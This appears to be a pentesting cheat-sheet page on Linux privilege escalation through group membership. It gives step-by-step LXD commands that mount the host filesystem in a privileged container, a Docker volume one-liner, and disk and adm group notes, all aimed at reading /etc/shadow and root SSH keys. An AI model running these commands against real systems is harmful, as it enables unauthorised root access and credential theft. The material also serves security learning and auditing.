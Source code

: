 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
- [LXC/LXD](#lxc/lxd)
          - [Confirm Group Membership](#Confirm\Group\Membership)
  - [Docker](#Docker)
  - [Disk](#Disk)
  - [ADM](#ADM)

## Table of Contents

- [LXC/LXD](#lxc/lxd)
          - [Confirm Group Membership](#Confirm\Group\Membership)
  - [Docker](#Docker)
  - [Disk](#Disk)
  - [ADM](#ADM)

# LXC/LXD
- Similar to Docker and is Ubuntu's contianer Manager. Upon installation, all usres are added to the `LXD` group. Membership of this group can be used to escalata privileges by creating an `LXD` container, making it privileged, and then accessing the host file system at `/mnt/root`
###### Confirm Group Membership
```bash
id
```
1. `unzip alpine.zip`
2. Start the LXD initialization process
[How to setup and use LXD on Ubuntu - DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)
3. Import the local image
```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```
4. Start a privileged Container with `security.privileged` set to `true` to run the container without a `UID` mapping, making the root user in the container the same as te root user on the host
```bash
lxc init alpine r00t -c security.privileged=true
```

5. Mount the host file system
```bash
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
---

Device mydev added to r00t

```
6. Finally, spawn a shell inside the container instance. We can now browse the mounter host file system as root. To access the contents of the root directory on the host type `cd /mnt/root/root` from here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.
```bash
lxc start r00t
~/64-bit Alpine$ lxc exec r00t /bin/sh
```


## Docker
Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command `docker run -v /root:/mnt -it ubuntu`.
- This cmd creates a new Docker instance with the `/root` directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a user who has priv's.

## Disk
Users within the disk group have full access to any devices contained within `/dev` such as `/dev/sda1` which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root privileges. As with the Docker group example, this could be leveraged to retriece SSH keys, credentials or to add a user.

## ADM 
Members of the ADM group are able to read all logs stored in `/var/log` this does not directly grant root access. But can be used to gather sensitive data stored in log files or enumerate user actions and running cron jobs.
```bash
id
```









